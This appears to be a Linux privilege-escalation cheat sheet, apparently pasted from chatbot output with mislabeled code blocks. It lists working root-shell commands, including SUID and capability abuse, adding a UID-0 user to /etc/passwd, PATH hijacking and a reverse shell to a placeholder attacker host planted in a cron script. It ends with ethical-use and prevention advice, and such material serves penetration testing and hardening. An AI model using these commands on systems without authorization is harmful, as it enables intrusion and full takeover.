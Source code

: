 Privilege escalation in Linux refers to gaining higher levels of access or permissions (e.g., root access) than the system's intended configuration allows. This can be achieved by exploiting misconfigurations, vulnerabilities, or design flaws in the system.

Below is a detailed guide on privilege escalation techniques in Linux:

1. Basic Enumeration
Before attempting privilege escalation, thorough system enumeration is crucial. Use the following commands to gather information:

System Information
uname -a: Kernel version and system details.
cat /etc/*release: Distribution details.
User Information
whoami: Current user.
id: Groups and privileges of the current user.
who: Logged-in users.
Files and Permissions
ls -la: List file permissions.
find / -perm -4000 2>/dev/null: Look for SUID binaries.
Network Information
ifconfig or ip addr: Network configuration.
netstat -tuln or ss -tuln: Listening ports.
Processes
ps aux: Running processes.
crontab -l: Scheduled tasks.
2. Kernel Exploits
Outdated kernels are a common target for privilege escalation. If the system is running an old kernel version, search for known vulnerabilities.

Steps:
Check the kernel version:

bash
Copy code
uname -r
Search for exploits:

Use online databases like Exploit-DB.
Tools: searchsploit (part of Kali Linux).
Compile and run the exploit:

Transfer the exploit to the target system.
Compile it (if needed):
Copy code
gcc exploit.c -o exploit
Execute:
bash
Copy code
./exploit
3. SUID Binary Exploitation
Files with the SUID bit set run with elevated privileges. If a SUID binary is misconfigured, it can be exploited.

Steps:
Find SUID binaries:
typescript
Copy code
find / -perm -u=s -type f 2>/dev/null
Check for exploitable binaries:
Look for common misconfigurations or custom binaries.
Example: vim, find, cp, etc.
Exploit:
For example, if find has SUID:
bash
Copy code
find . -exec /bin/sh -p \; -quit
4. Weak File Permissions
Misconfigured permissions on sensitive files can lead to privilege escalation.

Steps:
Check /etc/passwd or /etc/shadow:

If writable, modify /etc/passwd to add a new user with root privileges.
bash
Copy code
echo 'root2:x:0:0::/root:/bin/bash' >> /etc/passwd
su root2
If /etc/shadow is accessible, use tools like John the Ripper to crack hashes.
Writable system files or scripts:

Look for writable files in /usr/bin/, /etc/cron.d/, etc.
Modify scripts to include malicious code (e.g., reverse shell).
5. Exploiting Cron Jobs
If the target system runs cron jobs with elevated privileges, they can be exploited.

Steps:
Check for cron jobs:
bash
Copy code
crontab -l
cat /etc/crontab
Look for writable scripts or files executed by cron.
Inject malicious commands:
bash
Copy code
echo 'bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1' > /path/to/script
6. Exploiting Writable PATH
If a privileged user runs a script or command without specifying the full path, and the current user can write to the PATH variable, a malicious binary can be placed in the PATH.

Steps:
Check the PATH variable:
bash
Copy code
echo $PATH
Place a malicious script in a writable directory:
bash
Copy code
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls
Execute the script:
bash
Copy code
PATH=/tmp:$PATH
ls
7. Exploiting NFS (Network File System)
If NFS is configured incorrectly, it can be exploited to gain root access.

Steps:
Check for NFS shares:
Copy code
showmount -e target_ip
Mount the share:
bash
Copy code
mount target_ip:/share /mnt
If no_root_squash is enabled, create a SUID binary in the mounted directory.
8. Exploiting Capabilities
Linux capabilities can allow binaries to perform specific privileged operations.

Steps:
Find binaries with capabilities:
javascript
Copy code
getcap -r / 2>/dev/null
Exploit capabilities:
For example, if /usr/bin/python has cap_setuid:
rust
Copy code
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
9. Password Reuse and Misconfigurations
Sometimes, privilege escalation can be achieved without technical exploits:

Check for reused passwords.
Use the current user’s credentials to access sensitive files or services.
10. Tools for Linux Privilege Escalation
LinPEAS:

A script for automated privilege escalation checks.
bash
Copy code
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
Linux Exploit Suggester:

Suggests possible exploits for the target system.
Copy code
perl les.pl
GTFOBins:

A database of SUID and sudo misconfigurations.
Ethical Use and Prevention
Ethical Use:

Conduct privilege escalation only with explicit permission during penetration tests or authorized security assessments.
Prevention:

Regularly update the system and software.
Enforce the principle of least privilege (PoLP).
Audit and monitor user accounts, permissions, and cron jobs.
Use strong authentication mechanisms.
Restrict SUID and GUID binaries.